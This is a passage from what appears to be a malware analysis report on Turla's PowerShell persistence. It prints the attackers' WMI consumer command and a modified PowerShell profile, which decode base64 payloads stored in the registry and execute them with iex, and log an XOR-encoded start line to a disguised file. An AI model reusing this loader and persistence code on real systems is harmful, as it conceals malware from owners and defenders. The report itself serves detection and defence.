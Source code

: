 These events will run respectively at 15:30:40 and when the system uptime is between 300 and 400 seconds. The
variable $HL39fjh contains the base64-encoded PowerShell command shown in Figure 2. It reads the Windows
Registry key where the encrypted payload is stored, and contains the password and the salt needed to decrypt the
payload.

```
[System.Text.Encoding]::ASCII.GetString([Convert]::FromBase64String("<base64-encoded password and salt">)) |
iex ;[Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((Get-ItemProperty '$ZM172da').'$WY79ad')) |
iex
```

#### Figure 2. WMI consumer PowerShell command

Finally, the script stores the encrypted payload in the Windows registry. Note that the attackers seem to use a
different registry location per organization. Thus, it is not a useful indicator to detect similar intrusions.

#### Profile.ps1

In the latter case, attackers alter the PowerShell profile. According to the <a href="https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.3&viewFallbackFrom=powershell-6" > Microsoft documentation </a> A PowerShell profile is a script that runs when PowerShell starts. You can use the profile as a logon script to
customize the environment. You can add commands, aliases, functions, variables, snap-ins, modules, and
PowerShell drives.

**Figure 3 shows a PowerShell profile modified by Turla.**

```
try
{
    $SystemProc = (Get-WmiObject 'Win32_Process' | ?{$_.ProcessId -eq $PID} |  % {Invoke-WmiMethod -InputO‐
bject $_ -Name 'GetOwner'} | ?{(Get-WmiObject -Class Win32_Account -Filter "name='$($_.User)'").SID -eq "S-1-
5-18"})
    if ("$SystemProc" -ne "")
    {
      $([Convert]::ToBase64String($([Text.Encoding]::ASCII.GetBytes("<m>$([DateTime]::Now.ToString('G')):
STARTED </m>") | %{ $_ -bxor 0xAA })) + "|") | Out-File 'C:\Users\Public\Downloads\thumbs.ini' -Append;
      [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String("IABbAFMAeQBzAHQAZQBtAC4AVABlAH‐
gAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABTAHQAcgBpAG4AZwAo‐
AFsAQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAIg‐
BKAEYAZABJAFIAegBRADQATQBXAFIAawBJAEQAMABuAFEAMQBsAEQAVgBEAE0ANQBNAHoAUQB3AFo‐
AbQBaAG8ASgB6AHMAZwBKAEUAWgBaAE4AVABKAGoAWgBUADAAbgBUAGsATgBEAFUAagBrADUATg‐
B6AEIAbwBaAG0AaABqAEoAegBzAGcASQBBAD0APQAiACkAKQAgAHwAIABpAGUAeAAgADsAWw‐
BUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQAuAEcAZQB0AFMAdAByAGk‐
AbgBnACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBu‐
AGcAKAAoAEcAZQB0AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAnAEgASwBMAE0AOgBcAF‐
MATwBGAFQAVwBBAFIARQBcAE0AaQBjAHIAbwBzAG8AZgB0AFwASQBuAHQAZQByAG4AZQB0ACAAR‐
QB4AHAAbABvAHIAZQByAFwAQQBjAHQAaQB2AGUAWAAgAEMAbwBtAHAAYQB0AGkAYgBpAGwAa‐
QB0AHkAXAB7ADIAMgA2AGUAZAA1ADMAMwAtAGYAMQBiADAALQA0ADgAMQBkAC0AYQBkADIANgAt‐
ADAAYQBlADcAOABiAGMAZQA4ADEAZAA3AH0AJwApAC4AJwAoAEQAZQBmAGEAdQBsAHQAKQAnACk‐
AKQAgAHwAIABpAGUAeAA=")) | iex | Out-Null;
      kill $PID;
    }
```